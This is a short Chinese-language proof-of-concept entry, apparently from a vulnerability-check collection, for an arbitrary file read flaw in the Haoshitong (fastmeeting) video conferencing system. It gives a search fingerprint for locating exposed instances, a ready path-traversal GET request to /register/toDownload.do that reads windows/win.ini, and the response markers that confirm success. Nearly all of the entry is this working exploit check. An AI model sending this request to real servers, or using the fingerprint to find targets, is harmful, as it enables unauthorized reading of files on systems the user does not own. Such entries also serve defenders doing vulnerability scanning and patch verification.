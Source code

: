 ﻿# 好视通视频会议系统 fastmeeting toDownload.do接口任意文件读取漏洞

> 更新时间：2023-12-07

> 漏洞编号：

> 漏洞说明：视通视频会议系统的文件(fastmeeting) /register/toDownload.do?fileName= 存在任意文件遍历漏洞，可通过fileName参数读取任意文件。

> 漏洞特征：app="好视通-视频会议"

> 验证脚本：HTTP

```
GET /register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Accept: */*
Connection: Keep-Alive
```

> 响应代码特征：200

> 响应内容特征：support

> 上传文件定位：

> 验证文件来源：好视通视频会议系统 fastmeeting toDownload.do接口任意文件读取漏洞.poc
